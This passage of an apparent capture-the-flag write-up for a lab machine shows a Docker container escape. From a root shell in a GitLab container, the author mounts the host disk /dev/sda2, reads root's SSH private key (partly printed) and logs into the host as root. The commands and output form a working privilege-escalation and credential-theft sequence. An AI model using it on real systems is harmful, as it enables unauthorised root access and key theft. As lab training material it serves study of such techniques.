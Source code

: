 check file system disk space usage and enum mounted path

```console
root@gitlab:/mnt# df -h
Filesystem      Size  Used Avail Use% Mounted on
overlay         9.3G  7.5G  1.7G  82% /
tmpfs            64M     0   64M   0% /dev
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/sda2       9.3G  7.5G  1.7G  82% /root_pass
shm              64M  772K   64M   2% /dev/shm

root@gitlab:~# ls -lh /root_pass
-rw-r--r-- 1 root root 23 Jun 29  2020 /root_pass
```

key points:

1. big fs: overlay, /dev/sda2
2. /root_pass <<< /dev/sda2

so, we can infer that `/dev/sda2` is the host disk (file system)

```console
root@gitlab:/mnt/root/.ssh# mount /dev/sda2 /mnt
root@gitlab:/mnt/root/.ssh# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvyovfg++zswQT0s4YuKtqxOO6EhG38TR2eUaInSfI1rjH09Q
...
vJzok/kcmwcBlGfmRKxlS0O6n9dAiOLY46YdjyS8F8hNPOKX6rCd
-----END RSA PRIVATE KEY-----
```

ssh to login with private key

```console
└─╼$ ssh -i id_rsa root@$IP
The authenticity of host '10.10.10.220 (10.10.10.220)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.220' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

root@ready:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ready:~# uname -a
Linux ready 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@ready:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
		...
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    ...
    inet 10.10.10.220/24 brd 10.10.10.255 scope global ens160
		...
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default
		...
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
    ...
4: br-bcb73b090b3f: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
		...
    inet 172.19.0.1/16 brd 172.19.255.255 scope global br-bcb73b090b3f
    ...
6: veth0bad97f@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-bcb73b090b3f state UP group default
		...
```
